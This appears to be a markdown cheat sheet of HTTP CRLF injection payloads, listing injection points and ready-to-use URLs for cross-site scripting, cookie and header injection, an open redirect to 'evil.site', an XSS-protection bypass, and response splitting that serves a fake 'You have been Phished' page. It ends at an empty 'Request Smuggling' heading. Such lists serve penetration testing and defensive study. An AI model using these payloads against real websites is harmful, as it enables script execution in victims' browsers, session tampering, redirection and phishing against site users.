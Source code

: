 # Content 



## HTTP/1.1 CRLF injeciton
**where to inject** 
- url path
```
http://www.example.net/%0D%0A
```
- parameter
```
http://www.example.net/?param=value%0D%0A
```

**CRLF injeciton can lead to**
- xss
```
http://www.example.net/?name=Bob%0D%0A<script>alert(document.domain)</script>
```
- add a header
```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue   => add cookie

http://www.example.net/%0D%0ALocation:http://evil.site     => open redirect

http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e      => XSS Bypass


http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E  => Write HTML

```

- Request Smuggling
